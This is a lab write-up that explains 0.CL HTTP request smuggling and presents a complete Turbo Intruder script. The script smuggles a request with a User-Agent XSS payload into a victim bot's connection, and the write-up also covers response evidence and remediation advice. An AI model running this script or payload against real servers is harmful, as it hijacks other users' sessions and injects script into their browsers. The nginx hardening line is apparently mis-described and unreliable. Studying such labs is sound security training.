










## Challenge Overview
* **Challenge name**: 0.CL request smuggling
* **Category**: HTTP Request Smuggling
* **Level**: Expert
* **Objective**: Carlos visits the homepage every five seconds. Exploit 0.CL request smuggling to execute `alert()` in his browser.

---

## 1. Fundamental Concepts

### 1.1 The Inherent Architectural Flaw of HTTP/1.1 Message Framing
HTTP/1.1 is an ancient, ASCII-based, stream-oriented protocol. On persistent TCP/TLS connections (HTTP Keep-Alive), multiple sequential HTTP requests and responses are transmitted down a single shared socket stream with **no explicit frame delimiters**. A server determines where one request ends and the next begins strictly based on framing metadata:
1. **`Content-Length` (CL):** Explicit byte count of the body.
2. **`Transfer-Encoding: chunked` (TE):** Dynamic chunk frames terminated by a zero-length chunk (`0\r\n\r\n`).
3. **Implicit Zero (0):** Methods or status codes where no body is permitted by specification or server configuration (e.g., standard `GET`, `HEAD`, or static asset lookups), causing the server to assume the body length is 0 immediately following the header block delimiter (`\r\n\r\n`).

When a reverse proxy (front-end) and an application server (back-end) disagree on which framing mechanism takes precedence, an HTTP Desynchronization vulnerability is born.

### 1.2 Defining the 0.CL Desynchronization Condition
In standard request smuggling nomenclature:
$$\mathbf{[Front\text{-}End\ Interpretation]\ .\ [Back\text{-}End\ Interpretation]}$$

* **In `CL.0` (2022):** The front-end reads `Content-Length: X` and pumps $X$ body bytes to the back-end. The back-end ignores the body (treating length as 0) and processes only the headers, leaving the unread $X$ body bytes sitting in the back-end socket buffer for the next request.
* **In `0.CL` (2025):** The **front-end ignores the `Content-Length` header** (treating body length as 0), forwarding only the header block to the back-end. The **back-end processes the `Content-Length: X` header** and suspends request execution while waiting to consume $X$ bytes of body from the socket.

The `0.CL` condition typically arises through **Header-Value (H-V) Parser Discrepancies**, such as inserting whitespace before the colon:
```http
Content-Length : 50
```
Strict front-end proxies consider a header with a space before the colon malformed and silently discard or ignore it (defaulting to body length 0). Permissive back-end parsers strip the trailing space, recognize the valid header, and await 50 body bytes.

### 1.3 The "0.CL Deadlock" Dilemma
Historically, `0.CL` was dismissed as a security dead end because of the **Upstream Connection Deadlock**:

```text
[ Attacker ] ──► [ Front-End Proxy ] (Mode: 0) ──► [ Back-End Server ] (Mode: CL)
                        │                                  │
               Only forwards headers;             Reads "Content-Length: 50";
               waits for Back-End response        waits for 50 bytes of body
                        │                                  │
                        └──────── MUTUAL DEADLOCK ─────────┘
                                (Both servers wait indefinitely)
                                 ===> 504 Gateway Timeout / TCP RST
```

Because the front-end waits for the back-end's response before streaming subsequent data, and the back-end refuses to respond until it receives the declared body bytes, the connection enters an inescapable stall until a network timeout fires.

### 1.4 The Breakthrough: Early-Response Gadgets (ERG)
An **Early-Response Gadget (ERG)** is an endpoint or condition that forces the back-end server to generate and transmit an immediate HTTP response **before reading the request body**, while crucially **leaving the persistent TCP connection open (Keep-Alive)**.

* On **Windows/IIS**: Requesting DOS reserved device names (e.g., `/con`, `/aux`, `/nul`, `/prn`) causes the operating system filesystem driver to trigger an immediate exception. IIS catches this and returns an instant response (such as `200 OK` or `400 Bad Request`) without reading the body, leaving the socket intact.
* On **Reverse Proxies / Directory Handlers**: Requesting unslashed directory paths or static resource handlers with non-standard methods (e.g., `POST /resources/css/anything`) triggers an immediate redirect or static error handler that responds instantly without consuming the body.

When an ERG is triggered with `0.CL`:
1. The back-end responds immediately to Request 1, satisfying the front-end.
2. The front-end closes Request 1's cycle and allows the next request on the persistent connection.
3. **The Trap is Set:** The back-end's socket parser is still in a deficit state: it expects $X$ bytes of body for Request 1. When the next request arrives down that socket, the back-end **slices off and consumes the first $X$ bytes of the new request as the missing body of the previous request**!

### 1.5 The Double-Desync Concept: Weaponizing 0.CL into CL.0
Slicing bytes off an incoming request usually only corrupts its headers, producing a `400 Bad Request` ("Mystery 400"). An attacker cannot force a victim to prepend a malicious payload to their own request.

To convert a byte-slicing condition into an exploit that hijacks other users, the attacker executes a **Double-Desync**:
1. **Stage 1 (0.CL via ERG):** An ERG request sets a trap on the back-end socket, priming it to swallow a specific number of bytes ($N$).
2. **Stage 2 (Chopped & Weaponized into CL.0):** The attacker immediately sends a multi-part request. The back-end swallows the first $N$ bytes (`stage2_chopped`), which shears off the outer request line. The remainder of the request (`stage2_revealed` + `smuggled`) is read as a legitimate request followed by an unconsumed payload left behind in the buffer—**effectively converting the socket state into a `CL.0` desynchronization!**
3. **Stage 3 (Victim Request):** When a victim (Carlos) visits the application, their incoming request is appended directly to the smuggled payload waiting in the buffer, executing the malicious action.

---

## 2. Attack Model & Architecture

### 2.1 Architectural Topology
The target environment comprises:
* **Attacker (Turbo Intruder):** Emits precision pipelined requests across raw TCP streams.
* **Front-End Reverse Proxy:** Normalizes traffic, distributes incoming requests across persistent back-end socket pools, ignores `Content-Length : %s` (space before colon).
* **Back-End Application Server:** Parses `Content-Length : %s`, hosts the blog application, and maintains directory handlers.
* **Victim Client (Carlos):** An automated headless browser bot visiting the homepage (`GET /`) once every 5 seconds.

```text
[ Attacker (Turbo Intruder) ]
      │
      │ Pipelined Stream: Stage 1 (0.CL ERG) + Stage 2 (Chopped CL.0) + Victim Probe
      ▼
[ Front-End Reverse Proxy ]
      │
      │ Multiplexed over shared persistent TCP connection pool
      ▼
[ Back-End Application Server ]
 ┌────────────────────────────────────────────────────────────────────────┐
 │ 1. Stage 1 triggers ERG at /resources/css/anything -> Responds 302!   │
 │ 2. Back-end still owes len(stage2_chopped) bytes on socket.           │
 │ 3. Stage 2 arrives -> stage2_chopped is swallowed as Stage 1 body!     │
 │ 4. stage2_revealed is processed; 'smuggled' payload remains in buffer! │
 │ 5. Carlos sends GET / -> Appended to 'smuggled' (GET /post?postId=10)  │
 │ 6. Carlos receives HTML reflecting User-Agent -> alert(1) executes!    │
 └────────────────────────────────────────────────────────────────────────┘
```

### 2.2 Attack Workflow & Data Flow Diagram

```text
========================================================================================
0.CL DOUBLE-DESYNC REQUEST SMUGGLING ATTACK WORKFLOW
========================================================================================
[Attacker (Turbo Intruder)]
    │
    │ (1) Sends Stage 1: 0.CL Early-Response Gadget (ERG)
    │     POST /resources/css/anything HTTP/1.1\r\nContent-Length : 45\r\n\r\n
    ▼
[Front-End Proxy] (Mode: 0)
    │ Detects space before colon in "Content-Length :" -> Silently ignores CL!
    │ Treats request body length as 0, forwards only the header block to Back-End.
    ▼
[Back-End Server] (Mode: CL)
    │ Parses "Content-Length: 45", but static directory handler triggers instant 302!
    │ Emits HTTP/1.1 302 Found without consuming body, LEAVING SOCKET OPEN!
    │ Socket Deficit: Back-End still expects 45 body bytes on this TCP stream.
    ▼
[Attacker (Turbo Intruder)]
    │ (2) Sends Stage 2 Pipeline:
    │     [stage2_chopped (45B)] + [stage2_revealed (GET /404)] + [smuggled (GET /post?postId=10)]
    ▼
[Back-End Server]
    │ Swallows stage2_chopped (45B) to satisfy Stage 1 deficit!
    │ Executes stage2_revealed (GET /404) -> Emits 404 response.
    │ Crucial State: 'smuggled' prefix (GET /post?postId=10) stays primed in socket buffer!
    │ (Socket effectively converted into CL.0 desynchronization state!)
    ▼
[Victim Crawler (Carlos)] (Visits homepage every 5 seconds)
    │ (3) Sends GET / HTTP/1.1
    ▼
[Front-End Proxy]
    │ Dispatches Carlos's request down the primed persistent TCP socket
    ▼
[Back-End Server]
    │ Concatenates Carlos's request into the primed 'smuggled' prefix:
    │ Processes: GET /post?postId=10 with User-Agent: a"/><script>alert(1)</script>
    │ Reflects unescaped XSS payload into Carlos's HTTP response!
    ▼
[Carlos's Browser]
    │ Parses HTML response, executes alert(1) -> LAB SOLVED!
```

---

## 3. Step-by-Step Exploitation (PoC)

### 3.1. Phase 1: Application Reconnaissance & Baseline Inspection
We initiate reconnaissance by capturing a baseline request to the target blog application. As shown in **Figure 1**, requesting the root directory returns a standard HTTP/2 `200 OK` response with blog posts:



---

### 3.2. Phase 2: Uncovering the Reflected XSS Sink in `User-Agent`
To solve the lab, we must force the victim (Carlos) to execute `alert()`. Since we cannot inject arbitrary parameters into Carlos's standard `GET /` request directly, we need a reflection point where an attacker-controlled header alters the HTML output.

Auditing the blog posts (specifically post ID 10), we inspect the comment submission form:



In **Figure 2**, line 82 reveals that the server reflects the client's `User-Agent` header into the `value` attribute of a hidden input named `userAgent`:
```html
<input required type="hidden" name="userAgent" value="Mozilla/5.0 ...">
```

We test for attribute escape by modifying the header in Burp Repeater:
```http
User-Agent: a"/><script>alert(1)</script>
```



As highlighted in **Figure 3**, the server reflects our payload without output sanitization or HTML entity encoding:
```html
<input required type="hidden" name="userAgent" value="a"/><script>alert(1)</script>">
```
The string breaks out of the input tag and injects an active `<script>alert(1)</script>` tag. We now have our weaponized payload target: `GET /post?postId=10`.

---

### 3.3. Phase 3: Discovering & Verifying the Early-Response Gadget (ERG)
Next, we probe for an Early-Response Gadget capable of surviving `0.CL` desynchronization. We test sending a `POST` request to the static stylesheet directory `/resources/css/anything` with an obfuscated `Content-Length` header containing a space before the colon (`Content-Length : 50`):



In **Figure 4**, the back-end server immediately issues an `HTTP/2 302 Found` redirection to `/resources/css/anything/` with `Content-Length: 0`. It does **not** stall or wait for the declared 50 bytes of body. Furthermore, the connection remains open.

When sending a subsequent request manually in Repeater (**Figure 5**), it returns `200 OK` because Repeater dispatches requests over independent HTTP/2 streams rather than raw, pipelined HTTP/1.1 TCP connections:



---

### 3.4. Phase 4: Weaponization via Turbo Intruder (The Double-Desync PoC)
To achieve continuous stream alignment and catch Carlos during his 5-second visit cycle, we route the request to **Turbo Intruder** (**Figure 6**):



We implement the complete exploit script tailored to our target parameters:

```python
# Exploit Script: 0.CL Request Smuggling (Double-Desync)
def queueRequests(target, wordlists):
    # Enforce BURP engine with 10 persistent concurrent connections
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=1,
                           engine=Engine.BURP,
                           maxRetriesPerRequest=0,
                           timeout=15
                           )

    # Stage 1: Early-Response Gadget with H-V Obfuscation (Space before colon)
    # The back-end owes len(stage2_chopped) bytes on this socket!
    stage1 = '''POST /resources/css/anything HTTP/1.1
Host: '''+host+'''
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length : %s

'''

    # The weaponized payload: Smuggles GET /post?postId=10 with XSS in User-Agent
    smuggled = '''GET /post?postId=10 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1'''

    # Stage 2 Chopped: Sacrificial bytes swallowed by Stage 1's deficit
    stage2_chopped = '''OPTIONS / HTTP/1.1
Content-Length: 123
X: Y'''

    # Stage 2 Revealed: Becomes the active front of the request after chopping
    stage2_revealed = '''GET /404 HTTP/1.1
Host: '''+host+'''
User-Agent: foo
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

'''

    # Victim Probe: Simulates Carlos's incoming request and tests for success
    victim = '''GET / HTTP/1.1
Host: '''+host+'''
User-Agent: foo

'''

    if '%s' not in stage1:
        raise Exception('Please place %s in the Content-Length header value')

    if not stage1.endswith('\r\n\r\n'):
        raise Exception('Stage1 request must end with a blank line and have no body')

    # Continuous pipelining loop to capture Carlos's 5-second browsing interval
    while True:
        engine.queue(stage1, len(stage2_chopped), label='stage1', fixContentLength=False)
        engine.queue(stage2_chopped + stage2_revealed + smuggled, label='stage2')
        engine.queue(victim, label='victim')

def handleResponse(req, interesting):
    table.add(req)

    # Halt attack immediately when the solved banner is captured
    if req.label == 'victim' and 'Congratulations' in req.response:
        req.engine.cancel()
```

#### Line-by-Line Breakdown of the 0.CL Turbo Intruder Script:
* **`concurrentConnections=10` & `engine=Engine.BURP`**: Opens a pool of 10 persistent TCP sockets managed via Burp's internal engine, ensuring sufficient connection coverage across the back-end pool to intercept Carlos.
* **`stage1`**: Implements the Early-Response Gadget. Note `Content-Length : %s` (space before colon). The length is dynamically set to `len(stage2_chopped)`.
* **`stage2_chopped`**: The sacrificial block. When Stage 2 is sent down the socket, the back-end swallows exactly `len(stage2_chopped)` bytes to fulfill Stage 1's deficit.
* **`stage2_revealed` + `smuggled`**: What remains after `stage2_chopped` is swallowed. `stage2_revealed` (`GET /404`) is executed by the back-end, leaving `smuggled` (`GET /post?postId=10` with the XSS payload) stranded at the head of the socket buffer—**achieving CL.0 desync!**
* **`engine.queue(victim)`**: A local probe that simulates a victim request. When Carlos's real request hits the primed socket, Carlos executes `alert(1)`, and our subsequent probe detects the solved banner, cleanly canceling the attack loop via `req.engine.cancel()`.

---

### 3.5. Phase 5: Technical Evidence of Socket Desynchronization
Running the attack produces clear forensic evidence of `0.CL` desynchronization across the socket pool:

#### Evidence 1: The "Mystery 400" (Row 18)


In **Figure 7**, Row 18 is a clean, perfectly formed request (`GET / HTTP/1.1`). Under normal circumstances, it must return `200 OK`. However, because it arrived on a socket where `stage1` and `stage2` had desynchronized the byte stream, the back-end swallowed the first few characters of the request line (reading something like `ET / HTTP/1.1`). This syntax violation caused the parser to reject it with `400 Bad Request`. This is concrete proof of active socket byte-slicing.

#### Evidence 2: Sliced Request Structure (Row 86)


In **Figure 8**, inspecting Row 86 exposes the exact mechanism of the Double-Desync:
* The initial request headers (`OPTIONS / HTTP/1.1 ...`) were completely consumed by Stage 1.
* The remaining byte fragment (`X: Y`) was concatenated directly with the next request line (`GET /404 HTTP/1.1`), producing `X: YGET /404 HTTP/1.1`.
* Directly beneath it sits our smuggled payload: `GET /post?postId=10 HTTP/1.1` with `User-Agent: a"/><script>alert(1)</script>`.

---

### 3.6. Phase 6: Capturing the Solved State & Execution Explanation
Within 51 seconds (after 207 total requests dispatched across the 10 connections), Turbo Intruder transitioned to **`Cancelled` / `done`**.

Inspect **Row 206** (**Figure 9**):



```html
<section id=notification-labsolved class=notification-labsolved-hidden>
  <div class=container>
    <h4>
      Congratulations, you solved the lab!
    </h4>
```

Navigating to the browser confirms that the lab has been successfully solved (**Figure 10**):



---

### In-Depth Analysis: Why and How the Lab Was Solved
1. **The True Victim:** Carlos is a background crawler visiting the homepage (`GET /`) once every 5 seconds over the shared connection pool.
2. **The Socket Interception:** While Turbo Intruder flooded the connection pool with the 3-stage pipeline, one of the shared persistent TCP sockets was primed with the smuggled prefix:
   ```http
   GET /post?postId=10 HTTP/1.1
   User-Agent: a"/><script>alert(1)</script>
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 5

   x=1
   ```
3. **Execution in Carlos's Browser:** Carlos's `GET /` request was routed by the front-end to this exact socket. The back-end treated Carlos's request as the body of our smuggled request. In response, the back-end returned the HTML of `/post?postId=10` **directly to Carlos's browser session**.
4. **Triggering the Alert:** Carlos's browser parsed the returned HTML, encountered the unescaped payload `<script>alert(1)</script>`, and executed the script.
5. **Turbo Intruder's Clean Exit:** When Carlos triggered `alert()`, the academy platform updated the site state. The very next `victim` request sent by Turbo Intruder (Row 206) received the updated HTML containing `"Congratulations"`, satisfying the script's exit condition and cleanly terminating the attack.

---

## 4. Remediation & Defense Strategies

### 4.1 The Fundamental Solution: Mandate End-to-End HTTP/2 or HTTP/3
As demonstrated by James Kettle's research, attempting to patch text-based framing ambiguities in HTTP/1.1 is an endless game of whack-a-mole ("The Desync Endgame"). 
* **Binary Framing:** In HTTP/2 and HTTP/3, message length is encoded as an unambiguous binary integer within frame headers.
* **Stream Multiplexing:** Messages are divided into frames assigned to unique Stream IDs. There are no shared raw text streams where one request's bytes can spill into another.
* **Prohibit HTTP/2 Downgrading:** Front-end proxies must maintain HTTP/2 connections all the way to back-end application servers. Translating incoming HTTP/2 requests into HTTP/1.1 reintroduces all framing vulnerabilities.

### 4.2 Reverse Proxy & WAF Hardening

#### 1. Strict RFC 9112 Header Parsing & Normalization
Enforce strict validation of whitespace in header fields. In accordance with RFC 9112 §5.1, **no whitespace is permitted between a header field name and the colon**. Any request containing whitespace before the colon (such as `Content-Length :`) must be immediately rejected with an HTTP `400 Bad Request` rather than silently ignored or forwarded:
```nginx
# Nginx strict header validation directive
ignore_invalid_headers off;
```

#### 2. Terminate Connections on Unconsumed Body Responses
Reverse proxies must track declared request lengths against consumed bytes. If a back-end returns a response (especially a 3xx redirect or 4xx error) before consuming the declared `Content-Length`, the proxy **MUST forcefully close the backend TCP socket (`Connection: close` / `TCP RST`)** rather than returning it to the idle connection pool.

#### 3. Prohibit Shared Connection Pooling Across Distinct Security Contexts
Do not reuse backend Keep-Alive connections across multiple untrusted clients. If persistent connections are required for performance, partition socket pools by authenticated user session or client IP.

### 4.3 Web Server Configuration (Apache, IIS, Nginx)

#### 1. Enforce Connection Closure on Early Errors & Redirects
Configure web servers so that any early response issued before consuming the request body includes an explicit `Connection: close` header and terminates the underlying TCP socket:
```apache
# Apache configuration: Force connection close on directory redirects
<IfModule mod_headers.c>
    Header always set Connection "close" env=REDIRECT_STATUS
</IfModule>
```

#### 2. Disable Legacy DOS Device Lookups (IIS)
On Windows/IIS deployments, ensure that path validation routines reject legacy reserved device names (`CON`, `PRN`, `AUX`, `NUL`) at the URL rewriting layer before filesystem handlers are invoked.

### 4.4 Application-Level Defenses

#### 1. Context-Aware Output Encoding (XSS Mitigation)
Never reflect untrusted headers directly into HTML attributes without rigorous contextual encoding. The reflected XSS on `User-Agent` served as the critical exploit payload:
* In PHP / Blade / Twig / React, ensure all reflected attributes are processed through HTML entity encoders (e.g., `htmlspecialchars($ua, ENT_QUOTES, 'UTF-8')`).

#### 2. Content Security Policy (CSP)
Deploy a restrictive Content Security Policy that forbids inline script execution:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-rAnd0m'; object-src 'none';
```
A strong CSP prevents injected `<script>alert(1)</script>` tags from executing even if an attacker successfully smuggles a reflected XSS payload.

---

## References & Further Reading
